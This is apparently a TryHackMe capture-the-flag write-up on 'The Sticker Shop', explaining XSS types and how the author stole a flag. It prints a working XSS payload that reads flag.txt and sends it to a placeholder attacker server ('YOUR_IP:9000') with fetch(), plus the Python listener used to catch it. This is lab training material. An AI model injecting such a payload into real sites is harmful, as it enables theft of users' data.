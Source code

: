 ```yaml
---
title: "TryHackMe - The Sticker Shop"
date: 2025-03-09 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [xss,web exploitation,payload incjection]

---
```


## Introduction 

In this post, I’ll walk you through how I successfully exploited a Cross-Site Scripting (XSS) vulnerability to steal a flag from a vulnerable web application. My goal was to retrieve the flag from http://10.10.x.x:8080/flag.txt and send it to my own server for capture.

## 1. Understanding XSS

Cross-Site Scripting (XSS) is a web vulnerability that allows attackers to inject and execute malicious JavaScript in a victim’s browser. There are three common types of XSS:

- Stored XSS – The malicious script is stored in the application’s database and executed when a user visits a certain page.
- Reflected XSS – The script is injected via a URL or form input and executed immediately upon interaction.
- DOM-based XSS – The vulnerability exists in the client-side JavaScript, dynamically modifying the webpage.

<br>In my case, I found a vulnerable application that allowed me to inject and execute JavaScript.

## 2. My goals

<Br>✅ Retrieve the content of flag.txt from the vulnerable server.
<br>✅ Send the content to our own server.
<br>✅ Execute the malicious script via XSS in the victim’s browser.



## 3. Receiving the flag on my server

To capture the stolen flag, I set up a simple HTTP server using Python:

```bash
python3 -m http.server 9000
```

This server listened on port 9000, and as soon as the XSS payload executed, I received the flag in my server logs.


## 4. XSS Payload

```html
<script>
fetch('http://127.0.0.1:8080/flag.txt')  // Fetch the flag from the target server
  .then(response => response.text())  // Convert the response to text
  .then(flag => {
    fetch('http://YOUR_IP:9000/?flag=' + encodeURIComponent(flag));  // Send the flag to our server
  });
</script>

```

How the exploit worked ? 

 **Injecting the Payload** – I placed the above JavaScript in an input field that the application rendered as HTML, executing my script.
<Br>**Fetching the Flag** – my script made an HTTP request (fetch) to 10.10.x.x:8080/flag.txt, retrieving its contents.
<br>**Processing the Response** – The server returned the flag, and my script converted it into text.
**Exfiltrating the Flag** – Finally, my script sent the flag to my own server via an HTTP request.

## Conclusion

By leveraging an XSS vulnerability, I was able to execute arbitrary JavaScript in the victim’s browser and steal sensitive data. This demonstrates how dangerous unprotected web applications can be and why proper security measures are critical.